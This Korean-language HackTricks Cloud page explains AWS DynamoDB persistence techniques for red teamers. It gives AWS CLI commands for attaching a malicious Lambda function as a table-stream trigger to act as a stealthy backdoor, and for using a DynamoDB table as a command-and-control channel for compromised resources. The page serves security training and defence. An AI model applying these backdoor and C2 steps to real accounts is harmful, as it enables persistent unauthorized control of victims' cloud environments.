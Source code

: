 # AWS - DynamoDB Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### DynamoDB

자세한 정보는 다음을 참조하세요:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB Triggers with Lambda Backdoor

DynamoDB 트리거를 사용하여 공격자는 테이블에 악성 Lambda 함수를 연결하여 **은밀한 백도어**를 생성할 수 있습니다. 항목이 추가, 수정 또는 삭제될 때 Lambda 함수가 트리거되어 공격자가 AWS 계정 내에서 임의의 코드를 실행할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

지속성을 유지하기 위해 공격자는 DynamoDB 테이블에서 항목을 생성하거나 수정할 수 있으며, 이는 악성 Lambda 함수를 트리거합니다. 이를 통해 공격자는 Lambda 함수와 직접 상호작용하지 않고도 AWS 계정 내에서 코드를 실행할 수 있습니다.

### DynamoDB를 C2 채널로 사용하기

공격자는 명령을 포함하는 항목을 생성하고 손상된 인스턴스나 Lambda 함수를 사용하여 이러한 명령을 가져오고 실행함으로써 DynamoDB 테이블을 **명령 및 제어(C2) 채널**로 사용할 수 있습니다.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
손상된 인스턴스나 Lambda 함수는 주기적으로 C2 테이블에서 새로운 명령을 확인하고, 이를 실행하며, 선택적으로 결과를 테이블에 다시 보고할 수 있습니다. 이는 공격자가 손상된 리소스에 대한 지속성과 제어를 유지할 수 있게 합니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
